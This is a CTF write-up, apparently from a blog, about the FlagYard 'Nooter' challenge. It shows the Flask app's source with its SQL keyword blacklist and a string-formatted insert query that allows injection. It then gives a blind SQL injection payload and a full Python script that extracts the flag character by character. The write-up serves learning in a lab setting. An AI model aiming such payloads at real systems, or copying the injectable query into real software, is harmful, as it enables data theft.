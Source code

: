 ```yaml
---
title: Test .md file
date: '2023-10-16'
tags: ['Writup', 'CTF', 'features']
draft: false
summary: FlagYard Nooter writup
---
```


After starting the CTF instance, we are greeted with a simple registration page. At first glance, this seems like a basic “notes” website where users can register, log in, and input their personal notes. However, as CTF participants, we know things are never that simple, and there’s likely a hidden vulnerability for us to exploit.

The goal of this challenge is to retrieve the flag. To achieve this, we must analyze the provided source code and attempt to exploit any security loopholes.

```python
from flask import Flask, render_template, request, redirect, url_for, session
import sqlite3
from sqlite3 import Error
import string
import random
import re

class Database:
    def __init__(self, db):
        self.db = db
        try:
            self.conn = sqlite3.connect(self.db, check_same_thread=False)
        except:
            self.conn = None

    def gen_random(self) -> str:
        letters = string.ascii_lowercase
        result_str = ''.join(random.choice(letters) for i in range(15))
        return result_str

    def execute_statement(self, create_table_sql) -> str:
        try:
            c = self.conn.cursor()
            return c.execute(create_table_sql)
        except Error as e:
            return e

    def create_tables(self) -> str:
        create_user_table = '''
            CREATE TABLE IF NOT EXISTS user(
                id integer PRIMARY KEY,
                username text NOT NULL,
                password text NOT NULL
            );
        '''
        create_user_note = '''
            CREATE TABLE IF NOT EXISTS notes(
                username text NOT NULL,
                notes text NOT NULL
            );
        '''
        create_flag_table = '''
            CREATE TABLE IF NOT EXISTS flag(
                flag text NOT NULL
            );
        '''
        if self.conn is not None:
            self.execute_statement(create_user_table)
            self.execute_statement(create_flag_table)
            self.execute_statement(create_user_note)
            return "Tables have been created"
        else:
            return "Something went wrong"

    def insert(self, statement, *args) -> bool:
        try:
            sql = statement
            curs = self.conn.cursor()
            curs.execute(sql, (args))
            self.conn.commit()
            return True
        except:
            return False   

    def select(self, statement, *args) -> list:
        curs = self.conn.cursor()
        curs.execute(statement, (args))
        rows = curs.fetchall()
        result = []
        for row in rows:
            result.append(row)
        return result
```

The application uses an SQLite database for storing users, notes, and the hidden flag. The relevant tables are:

- `user`: Stores the usernames and passwords of registered users.
- `notes`: Stores notes submitted by logged-in users.
- `flag`: Stores the flag we're trying to extract.

The application employs a blacklist of certain SQL keywords (e.g., `exec`, `union`, `join`) to prevent common SQL injection attacks:

```python
def blacklist(string):
    string = string.lower()
    blocked_words = ['exec', 'load', 'blob', 'glob', 'union', 'join', 'like', 'match', 'regexp', 'in', 'limit', 'order', 'hex', 'where']
    for word in blocked_words:
        if word in string:
            return True
    return False
```

### SQL Injection in Notes

```python
query = db.insert("INSERT INTO notes(username, notes) VALUES(?,'%s')" % note, session['username'])
```

### Exploiting the SQL Injection Vulnerability

Testing the application locally, I modified the code to print out the SQL queries being executed:

```python
def insert(self, statement, *args) -> bool:
    try:
        sql = statement
        print(f"Executing SQL Query: {sql}")
        curs = self.conn.cursor()
        curs.execute(sql, (args))
        self.conn.commit()
        return True
    except Exception as e:
        print(f"Error executing query: {e}")
        return False
```

### Blind SQL Injection for Flag Extraction

To extract the flag, I used blind SQL injection:

```sql
' OR SUBSTR((SELECT flag FROM flag), 1, 1) = 'F'
```

### Python Script to Automate Flag Extraction

```python
import requests
import string

base_url = "http://your-instance-url.com/"
register_url = base_url + "register"
login_url = base_url + "login"
add_note_url = base_url

charset = string.digits + string.ascii_letters + "{}_"
flag = ""
position = 1

username = "your_username"  
password = "your_password" 

session = requests.Session()

def login():
    login_data = {"username": username, "password": password}
    response = session.post(login_url, data=login_data)
    if "Welcome" in response.text:
        print("[+] Login successful!")
    else:
        print("[-] Login failed.")
        exit()

def test_char_for_position(char, position):
    payload = f"' OR SUBSTR((SELECT flag FROM flag), {position}, 1) = '{char}"
    data = {"note": payload}
    response = session.post(add_note_url, data=data)

    reflected_values = [val for val in response.text if val in ('0', '1')]

    if reflected_values and reflected_values[-1] == '1':
        print(f"[+] Correct character at position {position}: '{char}'")
        return True
    return False

login()

while True:
    found_char = False
    for char in charset:
        if test_char_for_position(char, position):
            flag += char
            print(f"[+] Flag so far: {flag}")
            position += 1
            found_char = True
            break
    
    if not found_char:
        print("[*] Flag extraction complete!")
        break

print(f"[+] Extracted flag: {flag}")
```

The script maintains a session throughout to avoid logging in for every request, dynamically generates SQL injection payloads for each character and position, and extracts characters one by one until the entire flag is retrieved.

Flag extracted: ``FlagY{**********************************}``
